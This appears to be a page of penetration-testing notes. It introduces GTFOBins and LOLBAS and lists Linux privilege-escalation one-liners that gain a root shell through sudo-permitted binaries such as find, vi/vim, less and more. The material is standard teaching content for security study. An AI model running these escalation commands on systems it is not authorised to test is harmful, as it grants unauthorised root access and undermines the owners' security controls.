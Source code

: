 #### Create SHA1 password hash:&#x20;

```bash
sha1pass $mypassword
```

## GTFOBins

[https://gtfobins.github.io/](https://gtfobins.github.io/)

> GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions. The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

After finding binaries with SUID or other possible root permissions, you can search this site for privilege escalation methods.

You can also find a similar project for Windows at [LOLBAS](https://lolbas-project.github.io/).

#### Examples:

Privilege Escalation to Root with `find`:&#x20;

```bash
sudo find /etc -exec sh -i \;
```

Execute any command while in `less`:&#x20;

```bash
!$command
```

Escalate to root shell if your user can `sudo` any of these text editors:

```bash
#vi
1. [user@localhost]$ sudo vi
2. :shell
3. [root@localhost]#
#-or-
sudo vim -c '!sh'
#-or
sudo -u root vim -c '!sh'

#less
1. [user@localhost]$ sudo less file.txt
2. !bash
3. [root@localhost]#

#more
1. [user@localhost]$ sudo more long_file.txt
2. !bash
3. [root@localhost]#
#Note: for the 'more' method to work, the attacker has to read a file 
#that is longer than one terminal screen high
```
